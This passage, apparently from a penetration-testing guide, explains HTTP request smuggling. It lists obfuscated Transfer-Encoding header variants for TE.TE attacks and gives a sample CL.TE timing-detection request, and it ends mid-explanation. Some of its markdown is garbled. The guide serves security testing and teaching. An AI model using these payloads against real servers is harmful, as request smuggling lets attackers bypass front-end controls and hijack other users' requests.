 _Note that even if the attack must end with a `0` the following request is going to be appended as extra values of the **x** parameter._\
_Also note that the Content-Length of the embedded request will indicate the length of the next request that is going to b appended to the **x** parameter. If it's too small, only a few bytes will be appended, and if to large (bigger that the length of the next request) and error will be thrown for the next request._

### TE.TE vulnerabilities

Here, the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.\
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

`Transfer-Encoding: xchunked`\
``\ `Transfer-Encoding : chunked`\``\
`Transfer-Encoding: chunked`\
`Transfer-Encoding: x`\
``\ `Transfer-Encoding: chunked`\ `Transfer-encoding: x`\``\
`Transfer-Encoding:[tab]chunked`\
``\ `[space]Transfer-Encoding: chunked`\``\
`X: X[\n]Transfer-Encoding: chunked`\
\`\`\
`Transfer-Encoding`\
`: chunked`

Depending on the server (reverse-proxy or backing) that **stops processing** the **TE** header, you will find a **CL.TE vulnerability** or a **TE.CL vulnerability**.

## Finding HTTP Request Smuggling

### Finding CL.TE vulnerabilities using timing techniques

If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

1
A
0
```

Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `0`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

Sometimes, instead of getting a timeout you receive a 400 bad request from the final host like in the following scenario, where a CL.TE payload is sent:
